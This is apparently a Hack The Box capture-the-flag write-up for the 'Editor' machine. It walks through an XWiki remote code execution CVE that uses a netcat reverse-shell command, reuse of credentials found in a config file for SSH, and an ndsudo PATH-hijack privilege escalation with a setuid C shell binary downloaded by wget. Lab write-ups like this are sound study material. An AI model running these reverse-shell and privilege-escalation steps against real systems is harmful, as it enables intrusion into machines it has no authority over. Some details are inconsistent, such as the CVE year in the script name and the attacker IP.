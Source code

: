 
# 📙Editor HTB Writeup
* **Machine Type**: Linux  
* **Solved by**: Akshat Nigam  
* **Category**: Web Exploitation, RCE, Privilege Escalation  
* **Difficulty**: Medium  
* **Attack Surface**: Web Application, XWiki RCE, SSH Access, SUID Exploitation  
## Nmap Scan
```bash
nmap -sC -sV editor.htb -v
````

```
2/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
8080/tcp open  http    Jetty 10.0.20
| http-title: XWiki - Main - Intro

```

---

## Step 1 — Service Enumeration

* **Port 8080** revealed an **XWiki instance**.
* Checked the version at the bottom of the page:

```
XWiki Version: 15.10.8
```

---

## Step 2 — Vulnerability Identification

* Found **CVE-2025-24893** affecting XWiki `< 15.10.11`.
* Public PoC: (https://github.com/gunzf0x/CVE-2025-24893)

---

## Step 3 — Exploitation (Reverse Shell)

```bash
python CVE-2024-24893.py -t http://editor.htb:8080/ -c 'busybox nc 10.10.14.4 4444 -e /bin/bash'
```

---

## Step 4 — Credential Discovery

* Found credentials in `hibernate.cfg.xml`.
* Reused for SSH login:

```bash
ssh oliver@editor.htb
```

---

## Step 5 — Privilege Escalation (ndsudo Exploit)

* Found **SUID binary**:

```bash
find / -type f -perm -4000 -user root 2>/dev/null
```

* Noticed `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo` (vulnerable to **CVE-2024-32019**).

---

## Step 6 — Exploit Preparation

**Exploit C code (`exploit.c`):**

```c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

**Compile locally:**

```bash
gcc exploit.c -o nvme
```

**Host file:**

```bash
python3 -m http.server
```

---

## Step 7 — Upload & Execution on Target

```bash
wget http://10.10.15.4/nvme
chmod +x nvme
export PATH=/var:$PATH
./ndsudo nvme-list
```

---

## Root Access Achieved 🎯

* Successfully obtained a root shell.
* Mission complete.





